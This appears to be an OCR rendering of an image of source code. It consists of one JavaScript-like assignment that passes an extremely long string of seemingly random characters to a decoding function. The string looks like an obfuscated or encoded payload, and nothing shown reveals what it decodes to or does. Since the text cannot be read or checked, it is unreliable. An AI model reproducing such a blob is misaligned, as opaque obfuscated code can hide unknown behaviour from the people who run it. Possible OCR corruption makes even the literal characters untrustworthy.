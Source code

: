 h=d(e,"?+<t6C#jH8;,:_/UH_,^uH#),;+:#H:v+H:6tUHC__t/j,/C6;;#U+6t8_8<UH658HUr8_+tC_:<U+#/:H<Cj:,t+_H<_/<8j,_C:;<#jH_y<H:<6_;6U:6U;#8</H6.8HU{6;;tUHC%;HC6,8+<B;#j,H+i#H&6j_/tt:8</j68<;H#_HtFHHtj;+U/6:;UuUU<C6;*UHC3U;#8,U+Hj:;t<jj/_:t<Hj_::;<jjH_c<H:t6j;</_<j;_U8/;6C8HUo6H/t#j,:+jj<C;:87H#K,HC__j<UH#:t<_Ht_j<t8:U<6+8//UCtHdU86:;6U_C/H8+6#::<;;3_CH,l5H,t+_j::_<tH:8n+UHC_86G8j//_;6+HH/WtH/tC_,rU_#<#H/#C8:t+:<E88<6j::++,j,#;:_+HjF:H#CUTtCH,UC6:8UU;!>H:U8CC;C8;U66H;4UH,jO8#_,_,<&U#B,H+h:/t<Hj__+;#j,;_<<_HK_HtlU,C{88SjC#6<8/Uv6H;q6:,UMU#j:6+C*;#,,H+K#HL+H_/6tj6X,_6C88UC6+;WH;/HtH8l/H8t/jt_H_UH6R;C/;z<#<,2EH#wJ_Hs::<+H:_C+:H8/CtC<;HU_HtGHH<+;_R6Cj#S_/C+,;^_+H8:n_j#,_+:y;#,,H+p#Hcjj_/6),HH/+t:H:U<t_8/H;/_tH8L/HH:K_#H,_+<#+,U+_jtjHUHj_:<,;+C#H:4+H/6<8H</6tC<;:+_HthHHt6;9U8C,#KU/C8,6&C+H:jD8jtjH<Gj;:U<:jC:,t6j__6/H8j/+668J;q<C8UUj6/H,UC6,#h//<t#HT<j+j2)/#C,:+Cj;:+<668;+U8C+8ntjH/8Ht68+Utt,8UU;66t;86/H618Ht:,+c/C_C<;/0nCH,*j+:/<,jC_;t6+;j/:H<OjH+#8+//t:j#U+C<;,b6<,;Ho+C:;:;<bGC7;HOw8:<<jj_p+:jU_U</+;j,:H<pjH+:8j/tt88:_H6:88)86_,<8;U;6H;xUH8j2_j6;,+Cj;_#<+jt:_:<+_j1:H<./Ht+8+U<6,t<8#/FtH8it;;CU/#<;_+t#wj=UU#C,8<Rjj:/,;+j#H:z+H:&t6H+U+tC8;Ut_;t<HH/EtH/U<U6<8/UE6H;3t,,U+6#U:;/tq;#_,H+W#H+UH#,;6<#H/_t68U/t<C;!z<C6t;86/H6b8Ht_;8N8##C<_to>CH,{CU:C<6jt_j<_j_81t:HU8H+:8_UH6_;<U+6U;_ut&HHH(_C<#H+#C_:<+,#8:j+/<H8+/#6QHHR#H;_C<_6+88_<t<Hh_HtT_U6C88vcCj;//6C8,,+6U;CH;Hl=CHU<#8:t<tHW:8<tHtj<::<0jH_=#_//6_8_H;/8tH8N/H8tU_#!;_+<C8:6+jj<C;,ClH#q,HC::8<<j__::,<*jH_I<HHZ,H8U:H/<t:8}/H6Z/:CU,jz:U;Cj;HTKCHU,#__8U,jU::<C+;j6:H<BjH+/H8/_t_t<HU/BtH8!<U;Cm#C+,;F+#6Cb;;58CH, MH;_<+Ht:,/^C/_+t;H_j;_t<HHa_Hj8U,<+,/8D/H6z8HH<6H;pUHC+;H%nCH:<++#9,H+pjt:e+HjJ_;+/jH_Q<H;#_Ht-HHL#_<8K/H6T8/U968;2+<Cc;:#8CH,flH##,H++#H:6H+jq:H<WjU_}<8H-_H#,HH/RtH8+/H6N8HL<6#;{UHCL,jQcCH,0<Hj6,H+7#H:{+Hj8:H6mHU_P<HHV_HtS;C/Z6;;:/H6<8Hh66H;%UHCW,Ui=CH,w&;#e,;+y#/:6+Hj}:H<UjH_+<HH+_Ht6U+/YtH8xUj6S88US6:T8UHCS;H++CH,+(HHXUQ+Z#8:4+Hj%:/<ejH++<8H+_Ht<HH/+tH;</#6G88US#:;pUHCQ:Ht/CH,+!H#+,H+;#H/#,<jG:8<r8C_{<8Haa,tDH:68tH82/HC_8HU+6H,<U#Cb;8Gkj:,3NH#D:;/+#H:<+H8C:H<KjHUb6CH1_;t3H;/56H8ZU;C68HUt6H:/UHCd;H+<#/,Ol:#L/#+&#H:h<;j;:H<CjHU/<HH>_HtF;C/nt;8D/_6%8;UTCH;_UHC+;HF;CH,<DHj<,#+3#H:R<jj1:H< 8HuH<HH2_Ht0HHF9tH;<8U638;UP6;;SUHCA;Hj3CH,mvH#<,H+<#H_<<:jw:8<LHj_L<HHTUHt8HH/+tH8+/H#w8Hp<68;cU,CI;894CH,x1HHL,H++#H:t+Hj<:H<#/j_B<;H^_;tVH8/xt;87/H<,8HUJ6H;+UHC9;Hc26t,&3H#A,H+D#H:m+H8/:H<tjH_i<HH0_Ht#Uj/et:8P/,6*88Uu6,;1UHt,;HYoCH,<*H#w,H+TCt:!+Hjq:H<mjH_=<H#,_HtqHH/+tH8F/HC ;<U+6,;4UUCs;:p%jH:,fH#6,H+t#H:j+HH</t<Lj/_b6aH0_Ht78;/;tH8j/H668HUV6H,<U8CI,^QNHt,yIH#{_H<##H:H+HjH:HCWjHUmt,H%/Oti8P/%6p8I/H:68HU66H;HUHC<;H<^CU, }_#e,:+X#_:c<;H+:H<jjHA<<HHL_Htq8#/.t_8r/U6%8;U C;,+UHCC;H<jCH,E%Hj<:0+n#_:WtUja:H<f8H/_<HHC_HtCHHU,tH84/:618_U}6;;-U8C},;G8CH,CuHHj,H+r#H/Wt+jq:_<Gj__ CCH4/;/jHH/jtH,H/H628HUL:8;zU_C4;U{1C8,r+;#8,H+C#H/j+Hjq:H6(Ht_F<_Hi__tx,C/q6;8#/H6j8HU/6H;WUHC>,U OC_,N9U#W,;+}j;:8+Hj#:Ht+jH_E<HH<<Ut+HU/!t_83/H628Ht+68;#UHC<;Hi+CH,#jj#5,/+u#::Y+8jq:8< jH,,<HHd_HtCHH/rtH;</C6N8/U{C_;-UHCQ,;},CH,#WHHj,H+m#H/y<_ju:/<uj/_aC6HX/;tCHH/HtH:6/H6T8HU^C;;eU/Cp,r*aC8,Y+;#/,H+##H/j+HjR:H6wj8_Y</HM_/tf8;/26;6j/H6H8HV#6H;}UHC>t;OV#+,D)H#i,H+a#;+j+8j;:H<YjH_3<HHRJ6t+H//h6<8G/86g8HX_6H;#UHCg;HndCH:<+,#E,/+c8+:}+Hj>_;t8jH_#<H;+_HtzHHU<6/8u/U6J;jUN6H;F+H#_;HJjCH,jvHH9,H<<#;:e<+j=/,<VjH_T<HHt_HtjHH/8tH8</H#i,6U+6U;KUUCm:jS&jH,/dH#j,H+j#H/;+H8m/K<yjU_G<UHg/Ut4HHU<tH8j/H6H8HU-6H;oc8Cl;/a CH,Y+s#0,:+6#H:0+H_::H<+jHUu#YH2/tt78</Y#_8ZU;Uj8HU_6H:UUHCw;H{zjH,X+t#Y:C+q#;:5+/,t:8<,jHtj<HH+_Ht+HH/6;+8q/H6%UUUB68;WU:,8;Hr}CH+:fH#+,H<<##:M<tjZ/+<-jH_O6H,/_Ht,HH/,tH;:/HC<8#U)C6;n<+Cp;HeBjH//rH#_,H+;#HU++Hja_t<vHt_RtCHi_8tbH//-t88#/H;+8HU+6H;<UHC6++GVCH,N#8#V,8+Qj;,/+Hj#:H6jjH_o<H;h+ItRH//Nt/8wh#6v;;;j6H;HUHC:;HPECH:<z##c:++S8+:i+HjQ:;jjj8_;<HHH_HtGHH/Q;H8o//69;<UQ6;;.u;#<;HujCH_jxH#w,HtLj6:(+UjS:U<}j,_9t;8H_Ht8HHV<tH8x/H6</UU+C<;uUUC&;HIbCHH_sH#j,H+;#H:++HH</C<3jU_96UHg_Ht>;H/;tH8j/H6j8HV<6H,<++Cr,+F.#,,0^H#